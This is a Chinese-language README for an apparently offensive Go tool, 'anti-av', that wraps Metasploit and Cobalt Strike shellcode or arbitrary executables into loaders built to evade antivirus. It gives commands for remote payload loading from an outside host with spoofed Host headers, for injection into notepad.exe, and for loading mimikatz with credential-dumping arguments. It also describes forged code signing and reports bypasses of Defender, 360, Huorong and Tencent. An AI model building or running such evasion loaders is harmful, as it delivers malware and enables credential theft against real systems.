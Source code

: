 # ANTI-AV



## 免责

本工具学习使用，溯源到b1gcat肯定不是我。


## TODO

- [ ] 合入SysWhispers直接调用syscall asm
- [ ] 支持加载任意pe文件实现免杀


## 描述
* shellcode*免杀加载，*payload*支持**msf** (-f raw)和**cs**(payload raw)

* 任意执行文件免杀加载，payload为pe格式

  ​	注意：执行免杀时，如果不带参数可以绕过av监测，带参数的那啥目前测试defender过不了，估计有参数黑名单）


## 安装

### Requirement

```bash
1、建议使用Mac或linux环境（推荐）

2、安装交叉编译 mingw64(必须)

3、混淆工具garble(必须)

4、nasm （必须）

5、安装签名 openssl、osslsigncode（非必须）
```

### anti-av

```bash
git clone https://github.com/b1gcat/anti-av.git
go build

Usage of ./anti-av:
  -arch string
        生成文件格式amd64,386 (default "386")
  -asm
        asm调用敏感函数
  -e    生成payload.e
  -ho string
        远程加载payload.e时,在GET请求头中替换host实现流量混淆 (default "wwww.baidu.com")
  -l string
        支持的加载类型: sc (default "sc")
  -mode string
        支持normal,inject (default "normal")
  -nosign
        关闭签名
  -o string
        输出文件名字 (default "output.exe")
  -os string
        OS: windows,linux (default "windows")
  -p string
        Payload: 
                1.支持 远程远程加载payload.e(参考payload.e生成实例)
                2.支持MSF payload generate by '-f raw'.
                3.支持CS raw payload.
                 (default "payload.bin")
  -v string
        签名: baidu.com 或 nvidia_leak (default "nvidia_leak")

```



## 使用方案



| 形态              | 说明                    | 生成命令                                                     |
| ----------------- | ----------------------- | ------------------------------------------------------------ |
| 自解密   | 无                      | ./anti-av -p ~/Desktop/payload.bin                         |
| 远程加载 | 无                      | 1、生成payload.e<br />./anti-av  -e -p ~/Desktop/payload.bin    <br /><br />2、上传payload.e到公共下载服务<br />略<br /><br />3、制作加载器<br />./anti-av -p http://x.x.x.x/payload.e |
| 进程注入          | 会强制注入到notepad.exe | ./anti-av -p ~/Desktop/payload.bin -inject 或<br /><br />./anti-av -p http://x.x.x.x/payload.e  -inject |
| 加载pe文件 |  | ./anti-av -l pe -p ~/Downloads/mimikatz_trunk_x64/x64/mimikatz.exe |



## 注意

* CS生成raw格式64位 payload，需要勾选x64

* PE加载时如果带参数例如: `anttav_windows_amd64 "privilege::debug" "sekurlsa::logonpasswords" "exit"`,此时会被拦截。

  

## 测试

| VT   | 火绒 | 360安全卫士 | 腾讯管家 | window defender |
| ---- | ---- | ----------- | -------- | --------------- |
| 1/68 | √    | √           | √        | √               |
|      |      |             |          |                 |

